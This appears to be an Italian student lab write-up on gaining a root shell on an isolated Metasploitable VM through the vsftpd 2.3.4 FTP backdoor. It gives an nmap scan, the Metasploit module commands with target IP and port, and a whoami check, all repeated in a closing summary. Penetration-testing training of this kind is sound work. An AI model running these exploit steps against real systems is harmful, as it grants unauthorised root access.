 # 📝 Consegna S7/L1
# La fase di exploit: Gli attacchi alle Reti ⚛️

## Obiettivo 
L'obiettivo di questa esercitazione è stato **ottenere una shell come utente root** sulla macchina target **Metasploitable-Linux** sfruttando una vulnerabilità nel servizio FTP `vsftpd 2.3.4`.

## Configurazione della rete ⚖️

### Struttura delle macchine virtuali
1. **Kali Linux**:
   - **Interfaccia 1 (eth0)**: Bridged per accesso a **Internet**.
   - **Interfaccia 2 (eth1)**: Rete interna configurata su `192.168.50.2`.

2. **Metasploitable-Linux**:
   - **Interfaccia unica (eth0)**: Configurata nella **rete interna** con IP `192.168.50.3`.
   - **Nessun accesso a Internet** (isolamento per motivi di sicurezza).

### Verifica della connettività
Per assicurarci che le macchine siano nella stessa rete interna:
**Kali ➞ Metasploitable**
   ```bash
   ping 192.168.50.3
   ```
   **Output atteso**: Risposta da `192.168.50.3` con successo.

## Scansione iniziale con Nmap 🔍
Una volta verificata la connettività, abbiamo eseguito una scansione rapida su Metasploitable per individuare i servizi attivi:

```bash
nmap -sV -p- 192.168.50.3
```

### Risultato della scansione
La scansione ha evidenziato la presenza del servizio FTP:
- **Porta 21**: FTP attivo con versione `vsftpd 2.3.4`

## Sfruttamento della vulnerabilità con Metasploit 🫠
### Caricamento dell'exploit
Utilizzando **Metasploit** con comando `msfconsole` abbiamo selezionato l'exploit specifico per la vulnerabilità di `vsftpd 2.3.4`:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.50.3
set RPORT 21
run
```

### Esecuzione
L'exploit ha avuto successo, ottenendo una **shell** come utente **root** sulla macchina target.

**Output atteso:**
```bash
Command shell session opened
whoami
root
```
![SuccessFTPExploit](./ShellFTPSuccess.png)

## Risultato finale 💪
L'obiettivo è stato raggiunto con successo:
- Abbiamo ottenuto una shell come **root** sulla macchina Metasploitable-Linux sfruttando il servizio FTP vulnerabile.
- La configurazione della rete interna ha garantito isolamento e sicurezza durante l'attacco.

### Considerazioni sulla sicurezza ⚠️
- La macchina target **Metasploitable** non deve avere accesso a Internet per evitare rischi di compromissione esterna.
- Kali Linux, grazie alla configurazione a doppia scheda di rete, ha mantenuto l'accesso sia alla rete interna che a Internet.

---

## Comandi chiave utilizzati 🛠️
1. **Scansione con Nmap**:
   ```bash
   nmap -sV -p- 192.168.50.3
   ```

2. **Metasploit - Caricamento exploit**:
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOST 192.168.50.3
   set RPORT 21
   run
   ```

3. **Verifica della shell**:
   ```bash
   whoami
   ```

## Mission Success 🏆🚀

